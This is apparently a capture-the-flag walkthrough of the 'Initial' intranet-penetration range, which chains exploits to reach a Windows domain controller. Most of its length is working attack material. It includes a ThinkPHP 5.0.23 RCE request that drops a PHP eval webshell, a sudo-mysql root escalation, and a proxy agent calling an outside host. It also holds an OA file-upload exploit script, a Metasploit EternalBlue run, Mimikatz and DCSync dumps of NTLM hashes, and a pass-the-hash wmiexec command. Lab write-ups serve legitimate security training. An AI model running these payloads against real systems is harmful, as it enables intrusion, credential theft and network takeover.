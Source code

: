 # Spring and Autumn Cloud Mirror & Initial

## Target Introduction
`Initial` is a shooting range environment with simple difficulty. Completing this challenge can help players to understand the simple process of intranet penetration. The shooting range has only one `flag`, and each part is located on different machines.

## Attack Process

The initial IP given in the title corresponds to a management system developed by the ThinkPHP framework. It was found that there is a `ThinkPHP 5.0.23 RCE` vulnerability. After writing a sentence, the Trojan horse was connected with an ant sword.

```html
http://39.99.234.215/?s=captcha&test=-1

POST:
_method=__construct&filter[]=system&method=GET&server[REQUEST_METHOD]=echo%20PD9waHAgQGV2YWwoJF9SRVFVRVNUWzFdKTs%2FPg%3D%3D%7Cbase64%20-d%20%3E%20%2Fvar%2Fwww%2Fhtml%2Fh3.php
```

`www-data` permission, try to `SUID` to escalate permission, find that the `mysql` command can be used to escalate permission, get the first part of `flag` in `/root/flag/flag01.txt`: `flag{60b53231-`

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
sudo -l
```

![](./images/1.png)

```bash
sudo mysql -e '\! ls /root/flag'
sudo mysql -e '\! cat /root/flag/flag01.txt'
```

![](./images/2.png)

Check the network card information and find that there is a `172.22.1.1` network segment, upload the scanning tool `fscan` and the proxy tool `Stowaway`

```bash
# Add permissions
sudo mysql -e '\! chmod 777 /var/www/html/fscan_amd64'
sudo mysql -e '\! chmod 777 /var/www/html/linux_x64_agent'

# Scan the network segment
./fscan_amd64 -h 172.22.1.1/24 -np

# server
./linux_x64_admin -l 22222 -s h3rmesk1t
# Target machine
./linux_x64_agent -c "114.55.6.121:22233" -s h3rmesk1t
```

![](./images/3.png)

`fscan` scan result, `172.22.1.2` address is the domain control host address, `172.22.1.21` address has `MS17-010` vulnerability, `172.22.1.18` address has `Call OA` application

```text
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.1.2 is alive
(icmp) Target 172.22.1.18 is alive
(icmp) Target 172.22.1.21 is alive
(icmp) Target 172.22.1.15 is alive
[*] Icmp alive hosts len is: 4
172.22.1.18:3306 open
172.22.1.21:445 open
172.22.1.18:445 open
172.22.1.2:445 open
172.22.1.18:139 open
172.22.1.21:139 open
172.22.1.2:139 open
172.22.1.21:135 open
172.22.1.18:135 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:80 open
172.22.1.2:88 open
172.22.1.15:22 open
[*] alive ports len is: 14
start vulscan
[*] NetInfo:
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[*] NetInfo:
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] WebTitle: http://172.22.1.15 code:200 len:5578 title:Bootstrap Material Admin
[*] NetInfo:
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] NetBios: 172.22.1.2 [+]DC DC01.xiaorang.lab Windows Server 2016 Datacenter 14393
[*] NetBios: 172.22.1.21 XIAORANG-WIN7.xiaorang.lab Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[+] 172.22.1.21 MS17-010 (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] 172.22.1.2 (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.1.18 XIAORANG-OA01.xiaorang.lab Windows Server 2012 R2 Datacenter 9600
[*] WebTitle: http://172.22.1.18 code:302 len:0 title:None Jump url: http://172.22.1.18?m=login
[*] WebTitle: http://172.22.1.18?m=login code:200 len:4012 title: Xinkun collaborative office system
[+] http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1
```

First, test the vulnerability of the `Sign Call OA` application with the address `172.22.1.18, use the weak password `admin/admin123` to enter the background, and issue a file upload vulnerability, task resources -> document transfer -> upload files, and the attack script is as follows

```python
import requests


session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```

```php
<?= @eval($_REQUEST[1]);?>
```

![](./images/4.png)

Get the second part of `flag` in `C:/Users/Administrator/flag/flag02.txt`: `2ce3-4813-87d4-`

![](./images/5.png)

Then call the `172.22.1.21` address host exists
`MS17-010` vulnerability, use `msf` to attack, establish forward connection, `system` permission

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set RHOSTS 172.22.1.21
exploit
```

![](./images/6.png)

Crawl the user's `hash`

```bash
load kiwi
creds_all
```

```
XIAORANG-WIN7$ XIAORANG 84efe3532fa285d59f61fcb11e6d83f2 a8cca0b211cdb2503fa1554968b7fa981b3d7502
```

Then upload `SharpHound.exe` to collect information in the domain

```bash
upload "/Users/alphag0/Desktop/Tools/Penetration/AD Security/SharpHound/SharpHound.exe" "C:/SharpHound.exe"

Shell
chcp 65001

cd C:/
SharpHound.exe -c all

download "C:/20231108104348_BloodHound.zip" "/Users/alphag0/Desktop/"
```

![](./images/7.png)

![](./images/8.png)

You can see that `XIAORANG-WIN7` can play `DCSync`

![](./images/9.png)

Use `DCSync` to get the `hash` of all users in the `dump` domain

```bash
load kiwi
kiwi_cmd lsadump::dcsync /all /csv
```

```
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502 krbtgt fb812eea13a18b7fcdb8e6d67ddc205b 514
1106 Marcus e07510a4284b3c97c8e7dee970918c5c 512
1107 Charles f6a9881cd5ae709abb4ac9ab87f24617 512
500 Administrator 10cf89a850fb1cdbe6bb432b859164c8 512
1000 DC01$ 4cbd17f9b02c983c440393478ea4408c 532480
1108 XIAORANG-WIN7$ 84efe3532fa285d59f61fcb11e6d83f2 4096
1104 XIAORANG-OA01$ 2480adae09d2e045e2dbcc5b1ea425fb 4096
```

Use impacket-wmiexec to access the domain control by horizontally moving, and get the third part of `flag` in `C:\Users\Administrator\flag\flag03.txt`: `e8f88d0d43d6}`

```bash
python wmiexec.py xiaorang.lab/administrator@172.22.1.2 -hashes:10cf89a850fb1cdbe6bb432b859164c8
```

![](./images/10.png)